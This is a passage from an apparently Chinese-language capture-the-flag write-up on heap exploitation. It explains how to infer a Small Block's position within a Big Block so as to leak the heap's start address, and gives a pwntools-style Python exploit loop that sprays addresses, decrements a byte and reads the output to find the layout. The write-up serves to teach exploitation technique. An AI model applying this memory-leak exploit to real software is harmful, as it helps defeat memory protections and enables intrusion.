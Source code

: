 ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)

其中，magic_addr所处的Big Block是确定的**block_start / 10**，在所处的Small Block的偏移也是确定的**offset**，但是它所处的Small Block在同一Big Block的位置是不确定的**count**，一旦获取count，我们就可以得到堆的初始地址了

下面仍然是利用类似的方式推测出**count**，遍历count所有可能的取值，通过将可能的地址遗留在最后的4byte位置，减一的方式，得到与众不同的**W**，输出差异判断**count**

判断的原理

```
magic_addr所在的Big Block的前一个Big Block的最后一个（最后分配，地址最大）Small Block地址一定包含 magic_addr - 0x20008 * count

而我们将magic_addr - 0x20008 * count 的低位由0x58变为0x57，输出前一个Big Block的内容的时候如果出现'W'，且所在的small index小于block_start证明colunt是正确的
```

代码如下

```
count = 1
    p_index = 0

    while 1:
        log.info("start find prev block count = %d" % count) # find 0x58585858'small block's count in the big_block
        data = []
        for i in range(0x10):                               # left's size all 0x20008
            data.append([p32(magic_addr - 0x20008 * count) * (0x1000 / 4 - 1), 1])
                                           # a number about count is write in a big block
        malloc(0x1000, data)                # 0x100 - 0x10f
        delete()

        data = []
        for i in range(0x10):
            data.append(['X' * (0xa0 - 1), 0])

        malloc(0xa0, data)                  # last number all be writen in andefined area
                                                # 0x100 - 0x10f
        log.info("start call fuc count = %d" % count)

        callfuc(0x100)                          # type -= 1 0x58xxxxxx

        show(block_start - 0x10, index + 1)        # 包含0x58585858地址

        p_index = 0
        out = ''
        for i in range(index + 1 - block_start + 0x10):
            out = p.recvline()
            if 'W' in out:
                out = out[12 : ]
                print "find again! " + str(out.index('W'))
                p_index = i + block_start - 0x10 #p_index=&gt;(block_start - 0x10, index+1)

                break
        delete()

        #find last of th
        if p_index &lt; block_start:
            break

        count += 1

    log.info('block start is : %d' % block_start)
    log.info('p_index is : %d' % p_index)
    heap_start_addr = magic_addr - 0x20008 * (count - 1 + 0x10 * (block_start / 0x10)) - offest - 8

```